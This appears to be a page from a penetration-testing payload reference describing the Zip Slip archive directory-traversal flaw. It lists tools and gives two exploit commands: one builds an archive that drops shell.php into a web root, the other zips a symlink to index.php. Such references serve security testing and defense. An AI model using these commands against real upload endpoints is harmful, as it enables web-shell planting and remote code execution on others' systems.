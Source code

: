 # Zip Slip

> The vulnerability is exploited using a specially crafted archive that holds directory traversal filenames (e.g. ../../shell.php). The Zip Slip vulnerability can affect numerous archive formats, including tar, jar, war, cpio, apk, rar and 7z. The attacker can then overwrite executable files and either invoke them remotely or wait for the system or user to call them, thus achieving remote command execution on the victim’s machine. 


## Summary

* [Tools](#tools)
* [Methodology](#methodology)
    * [Detection](#detection)
    * [Basic Exploit](#basic-exploit)
* [Additional Notes](#additional-notes)


## Tools

- [ptoomey3/evilarc](https://github.com/ptoomey3/evilarc) - Create tar/zip archives that can exploit directory traversal vulnerabilities 
- [usdAG/slipit](https://github.com/usdAG/slipit) - Utility for creating ZipSlip archives 


## Methodology

### Detection

Any ZIP upload page on the application.


### Basic Exploit

Using [ptoomey3/evilarc](https://github.com/ptoomey3/evilarc):

```python
python evilarc.py shell.php -o unix -f shell.zip -p var/www/html/ -d 15
```

Creating a ZIP archive containing a symbolic link:

```ps1
ln -s ../../../index.php symindex.txt
zip --symlinks test.zip symindex.txt
```


### Additional Notes

For affected libraries and projects, visit [snyk/zip-slip-vulnerability](https://github.com/snyk/zip-slip-vulnerability)


## References

- [Zip Slip - Snyk - June 5, 2018](https://github.com/snyk/zip-slip-vulnerability)
- [Zip Slip Vulnerability - Snyk - April 15, 2018](https://snyk.io/research/zip-slip-vulnerability)